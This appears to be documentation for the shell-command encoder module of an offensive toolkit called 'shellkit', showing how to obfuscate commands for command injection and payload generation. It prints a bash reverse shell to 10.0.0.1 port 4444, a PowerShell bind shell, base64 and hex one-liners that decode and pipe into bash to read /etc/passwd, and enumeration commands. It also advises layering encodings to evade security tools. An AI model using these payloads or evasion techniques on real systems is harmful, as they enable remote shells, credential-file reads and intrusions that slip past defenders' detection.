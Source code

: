 ```markdown
# Shell Command Encoding Guide

## Overview
Shell command encoding is crucial for payload generation and command injection testing. This module provides encoders for different shell environments including Windows CMD, PowerShell, and Bash.

## Supported Shells

### Windows CMD
```python
from shellkit.encoders.shell import CommandEncoder

cmd_encoder = CommandEncoder()
encoded = cmd_encoder.encode('dir & type secret.txt')
# Result: dir ^& type secret.txt
```

### PowerShell
```python
from shellkit.encoders.shell import PowerShellEncoder

ps_encoder = PowerShellEncoder()

# Character escaping
escaped = ps_encoder.encode('Get-Process | Where-Object {$_.CPU -gt 50}')
# Result: Get-Process `| Where-Object `{`$`_.CPU `-gt 50`}

# Base64 encoding
b64_encoded = ps_encoder.encode('Get-Process', method='base64')
# Result: powershell -enc RABlAHQALQBQAHIAbwBjAGUAcwBzAA==
```

### Bash
```python
from shellkit.encoders.shell import BashEncoder

bash_encoder = BashEncoder()

# Character escaping
escaped = bash_encoder.encode('cat /etc/passwd | grep root')
# Result: cat\ /etc/passwd\ \|\ grep\ root

# Base64 encoding
b64_encoded = bash_encoder.encode('cat /etc/passwd', method='base64')
# Result: echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash

# Hex encoding
hex_encoded = bash_encoder.encode('cat /etc/passwd', method='hex')
# Result: echo 636174202f6574632f706173737764 | xxd -p -r | bash
```

## Encoding Methods

### Character Escaping
- Escapes special characters with appropriate shell-specific escape sequences
- Maintains command readability
- Useful for basic command injection

### Base64 Encoding
- Encodes entire command in base64
- Helps bypass character restrictions
- Commonly used in one-liners

### Hex Encoding (Bash Only)
- Encodes command as hex string
- Alternative to base64 encoding
- Useful when base64 is blocked

## Usage Examples

### Command Injection
```python
# Windows CMD
cmd = 'whoami & net user'
encoded_cmd = cmd_encoder.encode(cmd)

# PowerShell
ps = 'Get-ADUser -Filter * | Select-Object Name'
encoded_ps = ps_encoder.encode(ps, method='base64')

# Bash
bash = 'find / -perm -4000 -type f'
encoded_bash = bash_encoder.encode(bash, method='base64')
```

### Payload Generation
```python
# Create reverse shell
bash_cmd = "/bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
encoded = bash_encoder.encode(bash_cmd, method='base64')

# Create bind shell
ps_cmd = "New-Object System.Net.Sockets.TCPListener(4444)"
encoded = ps_encoder.encode(ps_cmd, method='base64')
```

## Best Practices
1. Choose appropriate encoding method based on target environment
2. Test encoded commands in safe environment first
3. Consider command length limitations
4. Be aware of shell-specific quirks
5. Use proper error handling

## Common Issues
1. Command length limitations
2. Shell-specific character restrictions
3. Encoding detection by security tools
4. Execution context differences

## Security Considerations
1. Encoded commands may be flagged by security tools
2. Some encoding methods are well-known IoCs
3. Consider using multiple encoding layers
4. Test against target security controls

## Examples by Context

### Web Application Testing
```python
# SQL Injection with command execution
cmd = ';netstat -an --'
encoded = cmd_encoder.encode(cmd)

# File read with PowerShell
ps = 'Get-Content sensitive.txt'
encoded = ps_encoder.encode(ps, method='base64')
```

### System Testing
```python
# Privilege escalation check
bash = 'sudo -l && id'
encoded = bash_encoder.encode(bash, method='hex')

# Network enumeration
ps = 'Test-NetConnection -ComputerName target -Port 445'
encoded = ps_encoder.encode(ps, method='base64')
```
```